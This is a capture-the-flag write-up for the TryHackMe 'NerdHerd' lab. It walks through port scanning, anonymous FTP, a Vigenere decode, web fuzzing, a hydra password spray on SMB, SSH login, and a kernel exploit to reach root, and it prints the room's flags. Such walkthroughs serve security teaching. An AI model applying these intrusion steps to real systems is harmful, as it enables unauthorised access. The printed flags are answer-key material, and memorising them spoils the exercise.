## TL;DR

In this challenge we find inside ftp share some image that has the owner name `fijbxslz`. we also can find some weird song on the website, which gives us the key `birdistheword` for vigenere cipher, to decode the string we found and get the password `easypass`. We enumerate the smb service and find user `chuck`, which can let us login with the password `easypass`.

From its share, we get secret endpoint `/this1sn0tadirect0ry` which leads us to the ssh credentials of `chuck`.

Lastly, we move to root using well known exploit on kernel version. The flags can be easily found using `grep`.


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh,  port `139` and `445` with smb and port `1337` with apache web server
```bash
PORT     STATE SERVICE     REASON         VERSION                                                                                                                                                                 
21/tcp   open  ftp         syn-ack ttl 62 vsftpd 3.0.3                                                                                                                                                            
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                                            
|_drwxr-xr-x    3 ftp      ftp          4096 Sep 11  2020 pub                                                                                                                                                     
| ftp-syst:                                                                                                                                                                                                       
|   STAT:                                                                                                                                                                                                         
| FTP server status:                                                                                                                                                                                              
|      Connected to ::ffff:192.168.138.59                                                                                                                                                                         
|      Logged in as ftp                                                                                                                                                                                           
|      TYPE: ASCII                                                                                                                                                                                                
|      No session bandwidth limit                                                                                                                                                                                 
|      Session timeout in seconds is 300                                                                                                                                                                          
|      Control connection is plain text                                                                                                                                                                           
|      Data connections will be plain text                                                                                                                                                                        
|      At session startup, client count was 2                                                                                                                                                                     
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                                                                                        
|_End of status                                                                                                                                                                                                   
22/tcp   open  ssh         syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                                                                                           
| ssh-hostkey:                                                                                                                                                                                                    
|   2048 0c:84:1b:36:b2:a2:e1:11:dd:6a:ef:42:7b:0d:bb:43 (RSA)                                                                                                                                                    
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCYrqlEH/5dR4LGfKThK3BQuCVPxx91asS9FfOewAooNFJf4zsESd/VCHcfQCXEHucZo7+xdceZklC7PwhzmybjkN79iQcd040gw5kg0htMWuVzdzcVFowV0hC1o7Rbze7zLya1B1C105aEoRKVHVeTx0ishoJfJlkJBlx2nKrK
WciDYbJQvG+1TxEJaEM4KkmkO31y0L7C3nsdaEd+Z/lNIo6JfbxwrOb6vBonPLS/lZDJdaY0vrdZJ81FRiMbSuUIj3lEtDAZNWBTwXx5kO3fwodw4KbS0ukW5srZX5TLmf/Q/T8ooCnJMLvaksIXKl0r8fjJIx0QucoCwhCTR2o1                                      
|   256 e2:5d:9e:e7:28:ea:d3:dd:d4:cc:20:86:a3:df:23:b8 (ECDSA)                                                                                                                                                   
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNSB3jALoSxl/A6Jtpf21NoRfbr8ICR6FpH+bbprQ17LUFUm6pUrhDSx134JBYKLOfFljhNKR57LLS6LAK0bKB0=                                                
|   256 ec:be:23:7b:a9:4c:21:85:bc:a8:db:0e:7c:39:de:49 (ED25519)                                                                                                                                                 
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII4VHJRelvecImJNkkZcKdI+vK0Hn1SjMT2r8SaiLiK3                                                                                                                                
139/tcp  open  netbios-ssn syn-ack ttl 62 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                                             
445/tcp  open  netbios-ssn syn-ack ttl 62 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)                                                                                                                         
1337/tcp open  http        syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                          
| http-methods:                                                                                                                                                                                                   
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                      
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                                      
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                                                                                               
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `nerdherd.thm` to my `/etc/hosts` file.

### Login to smb share with credentials found

I logged in anoynosmly to port `21` and fetched all files. in order to download all files recursivly, we can use the next command:
```bash
wget -m ftp://anonymous@nerdherd.thm
```



We can find the file `pub/.jokesonyou/hellon3rd.txt`, which tells us to go to port `1337`.
```bash
┌──(agonen㉿kali)-[~/…/NerdHerd/nerdherd.thm/pub/.jokesonyou]
└─$ cat hellon3rd.txt       
all you need is in the leet
```

Okay ,i went to port `1337`, we can see the default apache page:
```bash
http://nerdherd.thm:1337/
```



Then, we got another alert box:



I searched over the page, and found the comment:
```bash
keep digging, mister/ma'am
```



I also find this comment, but i don't know what it wants to say:
```bash
maybe nothing? :)
```



In addition, there was link for a video at the bottom of the page, [https://www.youtube.com/watch?v=9Gc4QTqslN4](https://www.youtube.com/watch?v=9Gc4QTqslN4).

This song basically says that bird is the word:



When I used `exiftool` on the image we download from the ftp service, I noticed that the owner name is `fijbxslz`:



I googled this word, and found out this is probably encoded with vigenere cipher.



So, using CyberChef and the key `birdistheword` (because that's what the song says), I decoded the secret and got the string `easypass`:



I fuzzed the endpoints using `ffuf` and found the endpoint `/admin`:
```bash
┌──(agonen㉿kali)-[~/thm/NerdHerd]
└─$ ffuf -u 'http://nerdherd.thm:1337/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nerdherd.thm:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

admin                   [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 152ms]
index.html              [Status: 200, Size: 11755, Words: 3542, Lines: 407, Duration: 156ms]
:: Progress: [4750/4750] :: Job [1/1] :: 252 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```



In the source code I found the comment:
```bash
these might help:
Y2liYXJ0b3dza2k= : aGVoZWdvdTwdasddHlvdQ==
```



I tried to decode each string using base64, the first string gave me username, however, the second string didn't work:
```bash
┌──(agonen㉿kali)-[~/thm/NerdHerd]
└─$ echo 'Y2liYXJ0b3dza2k=' | base64 -d       
cibartowski                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/NerdHerd]
└─$ echo 'aGVoZWdvdTwdasddHlvdQ==' | base64 -d 
hehegou<j][base64: invalid input
```

I noticed there is smb on, when listing anonymously we can see there is share `nerdherd_classified`, however, we can't access it.

```bash
┌──(agonen㉿kali)-[~/thm/NerdHerd]
└─$ smbclient -NL \\\\nerdherd.thm\\

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        nerdherd_classified Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (nerdherd server (Samba, Ubuntu))
```

I executed `enum4linux` to enumerate the smb service for interesting information.
```bash
enum4linux nerdherd.thm
```

I found there is user which is called `chuck`



So, I gatherd all strings that might be passwords which I collected:
```bash
easypass
cibartowski
birdistheword
fijbxslz
maybe nothing? :)
leet
```

and tried my luck with `hydra`:
```bash
┌──(agonen㉿kali)-[~/thm/NerdHerd]
└─$ hydra -l chuck -P possible.txt  smb://nerdherd.thm/ -I
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-15 17:35:38
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 6 login tries (l:1/p:6), ~6 tries per task
[DATA] attacking smb://nerdherd.thm:445/
[445][smb] host: nerdherd.thm   login: chuck   password: easypass
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-15 17:35:39
```

### Find ssh credentials located at /this1sn0tadirect0ry/creds.txt

Yay, the password is `easypass`. I logged in and found the file `secr3t.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/NerdHerd]
└─$ smbclient \\\\nerdherd.thm\\nerdherd_classified\\ -U chuck%easypass
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep 11 04:29:53 2020
  ..                                  D        0  Thu Nov  5 22:44:40 2020
  secr3t.txt                          N      125  Fri Sep 11 04:29:53 2020

                8124856 blocks of size 1024. 3559816 blocks available
```



I downloaded the file using the command `get`, and read it:
```bash
┌──(agonen㉿kali)-[~/thm/NerdHerd]
└─$ cat secr3t.txt    
Ssssh! don't tell this anyone because you deserved it this far:

        check out "/this1sn0tadirect0ry"

Sincerely,
        0xpr0N3rd
<3
```

Then, after going to the folder, we find the file `creds.txt` at `http://nerdherd.thm:1337/this1sn0tadirect0ry/creds.txt`:



We can use the creds we found here to login via ssh:
```bash
chuck : th1s41ntmypa5s
```



and then grab the user flag:
```bash
chuck@nerdherd:~$ cat user.txt 
THM{7fc91d70e22e9b70f98aaf19f9a1c3ca710661be}
```


### Privilege Escalation to Root

When executing linpeas, we can see the kernel version is vulnerable



I googled for `Ubuntu 16.04 4.4.0-31-generic exploit`, and the second result gave me [https://www.exploit-db.com/exploits/45010](https://www.exploit-db.com/exploits/45010)



I uploaded the exploit, compiled it, and got root shell.



now, I pasted the payload from penelope and got session of root shell in the penelope.
I tried to read the root flag, and got pranked :(



So, I executed `grep` to find the flag, and found also the bonus flag:
```bash
root@nerdherd:/# grep -rnia "THM{.*}" / 2>/dev/null
/root/.bash_history:134:THM{a975c295ddeab5b1a5323df92f61c4cc9fc88207}
/opt/.root.txt:3:THM{5c5b7f0a81ac1c00732803adcee4a473cf1be693}
```


